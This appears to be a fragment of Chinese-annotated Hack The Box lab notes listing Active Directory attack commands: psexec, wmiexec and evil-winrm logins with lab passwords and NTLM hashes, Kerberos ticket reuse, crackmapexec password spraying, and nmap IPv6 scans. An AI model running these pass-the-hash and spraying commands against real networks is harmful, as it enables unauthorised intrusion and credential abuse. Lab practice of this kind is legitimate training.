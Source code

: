   ```bash
  psexec.py active.htb/administrator@10.10.10.100
  Password:  Ticketmaster1968
  ```

  ```bash
  #票据传递
  getTGT.py -dc-ip 10.10.10.100 active.htb/administrator:Ticketmaster1968 #申请票据
  export KRB5CCNAME=administrator.ccache  #导入内存
  
  psexec.py -k -no-pass -dc-ip 10.10.10.100 -target-ip 10.10.10.100 -service-name cifs active.htb/administrator@dc.active.htb cmd
  ```

  ```bash
  evil-winrm -i apt -u administrator -H '2b576acbe6bcfda7294d6bd18041b8fe'
  evil-winrm -i htb.local -u henry.vinson_adm -p 'G1#Ny5@2dvht'
  evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
  ```
  
  ```bash
  psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local 
  
  wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
  
  dcomexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local 
  
  smbexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
  ```
  
  密码喷射
  
  ```bash
  crackmapexec smb htb.local -u user3.list -H hash.list
  crackmapexec smb 10.10.11.158 -u user -p pass --continue-on-success --no-bruteforce
  ```
  
  



- nmap 扫 ipv6

  ```bash
  echo 'dead:beef::b885:d62a:d679:573f apt' >> /etc/hosts
  nmap -6 -p- --min-rate 10000 -oN nmap-alltcp-ipv6 dead:beef::b885:d62a:d679:573f
  
  nmap -6 -p 53,80,88,135,389,445,464,593,636,3268,3269,5985,9389 -sCV -0 -oN nmap-tcpscripts-ipv6 dead:beef::b885:d62a:d679:573f
  ```

  

- 破解 zip

